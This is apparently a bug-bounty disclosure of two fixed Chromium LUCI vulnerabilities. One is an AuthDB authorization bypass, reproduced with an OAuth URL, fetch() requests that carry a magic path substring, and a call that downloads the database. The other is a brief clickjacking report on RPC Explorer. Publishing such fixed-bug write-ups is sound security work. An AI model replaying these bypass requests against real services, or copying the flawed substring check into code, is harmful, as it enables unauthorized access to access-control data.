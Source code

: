 ```yaml
---
title: Chromium infra
---
```


# LUCI AuthDB leak (Fixed, Awarded $1000)

LUCI is the CI (Continuous integration) infrastructure for the Chromium project.
This database represents all data used when authorizing incoming requests and handling authentication related tasks: user groups, IP allow lists, OAuth client ID allowlist, etc.

- Login to this URL as any normal google user.
<https://accounts.google.com/o/oauth2/v2/auth?gsiwebsdk=3&client_id=446450136466-tmlcmovb9hnoh8rhs39846vmmd0rrsl0.apps.googleusercontent.com&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&redirect_uri=https%3A%2F%2Fdefaultv2-dot-chrome-infra-auth.appspot.com%2Fauth%2Fopenid%2Fcallback&prompt=select_account&response_type=token&include_granted_scopes=false&enable_granular_consent=true>

- Copy the `access_token` value from the url hash.
- On that same page, run the following
```js
fetch("https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v1/authdb/subscription/authorization?x=/auth_service/api/v1/importer/ingest_tarball/", {
  "headers": {
    "authorization": "Bearer <token goes here>",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "method": "POST",
  "mode": "cors"
});
```

You should now be granted permission to luci-go AuthDB without being in the "auth-trusted-services" group needed as per <https://pkg.go.dev/go.chromium.org/luci/server/auth/service#AuthService.RequestAccess>

`{"topic":"projects/chrome-infra-auth/topics/auth-db-changed","authorized":true,"gs":{"auth_db_gs_path":"chrome-infra-auth.appspot.com/auth-db","authorized":true}}`

You can also use the API to download the DB.
```js
fetch("https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v2/authdb/revisions/latest?x=/auth_service/api/v1/importer/ingest_tarball/", {
  "headers": {
    "authorization": "Bearer <token>",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "method": "GET",
  "mode": "cors"
});
```

The bypass is that if the URL contains `/auth_service/api/v1/importer/ingest_tarball/` anywhere the permission check gets bypassed.
Code is `strings.Contains(ctx.Request.URL.RequestURI(), "/auth_service/api/v1/importer/ingest_tarball/")`
Otherwise I would get `{"text":"user:ndevtk@protonmail.com is not a member of auth-trusted-services or administrators"}`

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/5595490>

# Clickjacking RPC Explorer (Fixed)
Go-based services that has gRPC APIs, import "go.chromium.org/luci/server", and call server.Main
Get a web based user interface for example <https://ci.chromium.org/rpcexplorer/services/> this used to not have embed protection.

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/4889788>
